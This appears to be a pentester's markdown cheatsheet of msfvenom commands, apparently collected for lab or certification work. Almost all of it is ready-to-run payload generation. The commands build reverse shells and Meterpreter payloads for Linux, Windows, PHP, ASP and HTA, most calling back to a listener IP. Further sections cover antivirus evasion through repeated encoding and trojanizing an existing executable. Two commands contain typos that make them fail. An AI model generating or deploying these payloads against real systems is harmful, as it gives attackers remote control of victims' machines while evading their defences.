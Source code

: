 Payload Cheatsheet:

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

https://web.archive.org/web/20220314040948/https://netsec.ws/?p=331

AV Bypass Articles:

https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/

## Generic Payloads:
```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.49.208 LPORT=4444-f raw > shell.sh
```

Linux:(Staged)
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

(Inline)
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
mfsvenom -p linux/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Windows(Reverse Shells):

(PowerShell)
```
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Staged)
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```



## Web Payloads:

HTA Payloads
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.204 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

PHP Payloads
```
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

ASP Payloads
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

## Hijacking shared objects:
```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker LPORT> -f elf-so -o program_name.so
```

## Meterpreter Payloads:

(Windows)

(Staged)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p  windows/x64/meterpreter_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter_reverse_tcp  LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

Encrypted shells:

(staged)
```
msfvenom -p windows/encrypted_shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p windows/encrypted_shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

## MSF encoding

-e Specifies the encoding type

-i sets the desired number of encoding iterations.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

Inject payloads into existing PE files

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
